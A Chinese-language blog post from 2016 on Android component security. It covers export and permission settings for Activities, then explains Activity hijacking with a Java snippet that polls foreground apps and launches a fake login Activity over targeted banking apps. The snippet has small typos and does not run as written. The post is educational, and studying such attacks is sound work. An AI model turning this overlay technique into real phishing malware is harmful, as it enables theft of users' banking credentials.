 title: 简析Android组件安全
date: 2016/6/14 17：57

categories:
- Mobile
tags:
- android
---

# 前言 #
前段时间在学习github上DroidPlgin插件的时候接触到不少专业术语，诸如预先占坑、Activity劫持和Hook等，一开始看还真是感觉雾里看花。在查阅资料的过程中发现了国人出版的《Android软件安全与逆向分析》，在理解Activity劫持的过程中引申了Android四大组件的安全。知识点不难却感觉蛮有趣，故分享之。

## Activity ##
Android组件是用户唯一能够看见的组件，作为软件所有功能的显示载体，其安全问题是最应该受到关注的
### 权限攻击 ###
正如Android开发文档中所说的，Android系统组件在制定Intent过滤器（intent-filter）后，默认是可以被外部程序访问的。这就很意味着很容易被其他程序进行串谋攻击，关于串谋攻击，在分享最后再做一个简单的解析。现在问题是，如何防止Activity被外部使用呢？

Android所有组件声明时可以通过指定android:exported属性值为false，来设置组件不能被外部程序调用。这里的外部程序是指签名不同、用户ID不同的程序，签名相同且用户ID相同的程序在执行时共享同一个进程空间，彼此之间是没有组件访问限制的。如果希望Activity能够被特定的程序访问，就不能用android:exported属性了，可以使用android:permission属性来指定一个权限字符串，声明例子如下：


    <Activity android:name=".MyActivity"
           android:permission="com.test.permission.MyActivity">
           <intent-filter>
               <action android:name="com.test.action"></action>
           </intent-filter>
    </Activity>

这样声明的Activity在被调用时，Android系统就会检查调用者是否具有com.test.permission.MyActivity权限，如果不具备就会触发一个SecurityException安全异常。要想启动该Activity必须在AndroidManifest.xml文件中加入以下声明：
    
    <uses-permission android:name="com.test.permission.MyActivity">

### Activity劫持 ###
当用户安装了带有Activity劫持功能的恶意程序后，恶意程序会遍历系统中运行的程序，当检测到需要劫持的Activity（通常是网银或其他网络程序的等登陆界面）在前台运行时，恶意程序就会启动一个带FLAG\_ACTIVITY\_NEW\_TASK标志的钓鱼式Activity覆盖正常的Activity，从而欺骗输入用户名或密码信息，当用户输入完信息后，程序就会将信息发送到指定的网址或邮箱，然后切换到正常的Activity中。这就是Activity劫持原理。从受影响的角度看，Activity属于用户层安全，程序员无法控制。

下面做一个简单的劫持例子。实例可以对多个进程进行劫持，它在启动时启动了一个Hack服务，Hack服务创建了一个定时器，定时器每隔2秒就检测一次系统正在运行的进程，判断前台运行的进程是否匹配劫持的进程列表中，如果匹配就进行劫持：

    private TimeTask mTask = new TimeTask(){
    
        @Override
        public void run(){
         	ActivityManager am = (ActivityManager) getSystemService(Context.ACTIVITY_SERVICE);
            List<RunningAppProcessInfo> infos = am.getRunningAppProcesses();
            //枚举进程
            for(RunningAppProcessInfo psinfo:infos){
                if(psinfo.importance == RunningAppProcessInfo.IMPORTANCE_FOREGROUND){ //前台进程
                 	if(hackList.contains(psinfo.processName)){
 	                    Intent intent = new Intent(getBaseContent(),HackerActivity.class);
                        intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK)；
                        intent.putExtra("processname",psinfo.processName);
                        getApplication().startActivity(intent);//启动伪造的Activity
                    }
                 }
            }
        }
